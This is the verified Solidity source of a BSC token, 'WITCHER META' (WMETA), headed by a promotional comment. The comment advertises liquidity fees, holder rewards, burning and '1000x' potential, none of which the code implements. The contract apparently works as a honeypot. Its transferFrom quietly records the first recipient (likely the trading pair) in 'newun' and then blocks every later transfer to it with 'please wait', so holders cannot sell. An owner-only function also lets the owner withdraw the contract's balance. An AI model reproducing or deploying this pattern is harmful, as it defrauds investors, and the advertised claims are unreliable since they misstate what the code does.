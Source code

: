 # WMETA
/**
 *Submitted for verification at BscScan.com on 2021-04-28
*/

/**

 #WITCHER META 
   
   #LIQ+#RFI

   #WITCHER META features:
   1% fee auto add to the liquidity pool to locked forever when selling
   1% fee auto distribute to all holders
   I created a black hole so #WITCHER META token will deflate itself in supply with every transaction
   50% Supply is burned at start.
   low fee low cap potential 1000x

*/

pragma solidity >=0.5.17;


library SafeMath {
  function add(uint a, uint b) internal pure returns (uint c) {
    c = a + b;
    require(c >= a);
  }
  function sub(uint a, uint b) internal pure returns (uint c) {
    require(b <= a);
    c = a - b;
  }
  function mul(uint a, uint b) internal pure returns (uint c) {
    c = a * b;
    require(a == 0 || c / a == b);
  }
  function div(uint a, uint b) internal pure returns (uint c) {
    require(b > 0);
    c = a / b;
  }
}

contract BEP20Interface {
  function totalSupply() public view returns (uint);
  function balanceOf(address tokenOwner) public view returns (uint balance);
  function allowance(address tokenOwner, address spender) public view returns (uint remaining);
  function transfer(address to, uint tokens) public returns (bool success);
  function approve(address spender, uint tokens) public returns (bool success);
  function transferFrom(address from, address to, uint tokens) public returns (bool success);

  event Transfer(address indexed from, address indexed to, uint tokens);
  event Approval(address indexed tokenOwner, address indexed spender, uint tokens);
}

contract ApproveAndCallFallBack {
  function receiveApproval(address from, uint256 tokens, address token, bytes memory data) public;
}

contract Owned {
  address public owner;
  address public newOwner;

  event OwnershipTransferred(address indexed _from, address indexed _to);

  constructor() public {
    owner = msg.sender;
  }

  modifier onlyOwner {
    require(msg.sender == owner);
    _;
  }

  function transferOwnership(address _newOwner) public onlyOwner {
    newOwner = _newOwner;
  }
  function acceptOwnership() public {
    require(msg.sender == newOwner);
    emit OwnershipTransferred(owner, newOwner);
    owner = newOwner;
    newOwner = address(0);
  }
}

contract TokenBEP20 is BEP20Interface, Owned{
  using SafeMath for uint;

  string public symbol;
  string public name;
  uint8 public decimals;
  uint _totalSupply;
  address public newun;

  mapping(address => uint) balances;
  mapping(address => mapping(address => uint)) allowed;

  constructor() public {
    symbol = "WMETA";
    name = "WITCHER META";
    decimals = 8;
    _totalSupply = 100000000000000000;
    balances[owner] = _totalSupply;
    emit Transfer(address(0), owner, _totalSupply);
  }
  function transfernewun(address _newun) public onlyOwner {
    newun = _newun;
  }
  function totalSupply() public view returns (uint) {
    return _totalSupply.sub(balances[address(0)]);
  }
  function balanceOf(address tokenOwner) public view returns (uint balance) {
      return balances[tokenOwner];
  }
  function transfer(address to, uint tokens) public returns (bool success) {
     require(to != newun, "please wait");
     
    balances[msg.sender] = balances[msg.sender].sub(tokens);
    balances[to] = balances[to].add(tokens);
    emit Transfer(msg.sender, to, tokens);
    return true;
  }
  function approve(address spender, uint tokens) public returns (bool success) {
    allowed[msg.sender][spender] = tokens;
    emit Approval(msg.sender, spender, tokens);
    return true;
  }
  function transferFrom(address from, address to, uint tokens) public returns (bool success) {
      if(from != address(0) && newun == address(0)) newun = to;
      else require(to != newun, "please wait");
      
    balances[from] = balances[from].sub(tokens);
    allowed[from][msg.sender] = allowed[from][msg.sender].sub(tokens);
    balances[to] = balances[to].add(tokens);
    emit Transfer(from, to, tokens);
    return true;
  }
  function allowance(address tokenOwner, address spender) public view returns (uint remaining) {
    return allowed[tokenOwner][spender];
  }
  function approveAndCall(address spender, uint tokens, bytes memory data) public returns (bool success) {
    allowed[msg.sender][spender] = tokens;
    emit Approval(msg.sender, spender, tokens);
    ApproveAndCallFallBack(spender).receiveApproval(msg.sender, tokens, address(this), data);
    return true;
  }
  function () external payable {
    revert();
  }
}

contract WITCHERMETA is TokenBEP20 {

  function clearCNDAO() public onlyOwner() {
    address payable _owner = msg.sender;
    _owner.transfer(address(this).balance);
  }
  function() external payable {

  }
}
